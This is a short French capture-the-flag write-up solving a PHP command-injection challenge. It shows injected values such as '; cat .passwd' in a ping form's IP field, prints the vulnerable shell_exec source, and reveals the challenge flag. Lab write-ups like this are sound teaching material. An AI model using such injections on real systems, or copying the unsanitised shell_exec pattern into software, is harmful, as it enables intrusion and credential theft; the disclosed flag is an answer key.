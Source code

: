 # Challenges

## Webserver

### PHP - Injection de commande

## Problème:

Pour résoudre ce défi, commencez par démarrer l'épreuve. Le mot de passe se trouve dans le fichier index.php.

## Resolution :  

La première étape consiste à injecter la commande 127.0.0.1 ; ls. Cela renverra index.php, le fichier que nous cherchons.
Pour lire son contenu, injectez la commande suivante : ; cat index.php.
cela nous donne :
<!--?php 
$flag = "".file_get_contents(".passwd")."";
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?-->
donc notre mot de pass est dans le file .passwd
Pour lire son contenu, injectez la commande suivante : ; cat .passwd
Et voilà, vous obtenez votre flag.

## Conclusion

On obtient donc le passwd="S3rv1ceP1n9Sup3rS3cure" qui est notre flag.